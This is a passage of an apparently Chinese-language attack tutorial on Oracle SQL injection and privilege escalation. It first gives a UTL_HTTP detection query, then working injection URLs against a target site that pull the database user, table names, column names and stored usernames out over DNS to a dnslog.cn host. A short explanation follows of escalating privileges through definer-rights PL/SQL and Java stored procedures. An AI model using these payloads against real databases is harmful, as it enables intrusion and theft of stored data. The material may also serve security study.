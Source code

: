 ###### 1.**检测是否支持utl_http.request**

```
http://hackrock.com:8080/oracle/?id=1 and exists (select count(*) from all_objects where object_name='UTL_HTTP') --+
```

若页面返回正常，这说明支持utl_http.request

**构造payload**

```
获取用户名
http://hackrock.com:8080/oracle/?id=1 and utl_http.request('http://'%7c%7c(select user from dual)%7c%7c'.z9mt3s.dnslog.cn/oracle')=1--+

获取表名
http://hackrock.com:8080/oracle/?id=1 and utl_http.request('http://'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'.z9mt3s.dnslog.cn/oracle')=1--+

获取列名
http://hackrock.com:8080/oracle/?id=1 and utl_http.request('http://'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'.z9mt3s.dnslog.cn/oracle')=1--+

获取数据
http://hackrock.com:8080/oracle/?id=1 and utl_http.request('http://'%7c%7c(select username from test.users where rownum=1)%7c%7c'.z9mt3s.dnslog.cn/oracle')=1--+
```

###### 2.**利用漏洞提权执行命令**

```
Oracle提权漏洞集中存在于PL/SQL编写的函数、存储过程、包、触发器中。Oracle存在提权漏洞的一个重要原因是PL/SQL定义的两种调用权限导致（定义者权限和调用者权限）。定义者权限给了低权限用户在特定时期拥有高权限的可能，这就给提权操作奠定了基础。

即，无论调用者权限如何，执行存储过程的结果权限永远为定义者权限，因此，如果一个较高权限的用户定义了存储过程，并赋予了低权限用户调用权限，较低权限的用户即可利用这个存储过程提权。

Java作为Oracle公司的主打语言，具有内置的安全性机制和高效的垃圾收集系统。Java还具有一组非常大的、丰富的标准库，从而可以更快、更低成本地开发应用程序。因此Oracle公司在它的Oracle数据库中，同样支持了使用Java来编写存储过程。

那么对于攻击者来说，完全可以通过这一特性，在系统上执行Java代码，从而完成提权操作。
```

**攻击流程**：

<img src="assets/80d202294ff4ece7bafd357b32301c6e.png" alt="80d202294ff4ece7bafd357b32301c6e" style="zoom:50%;" />
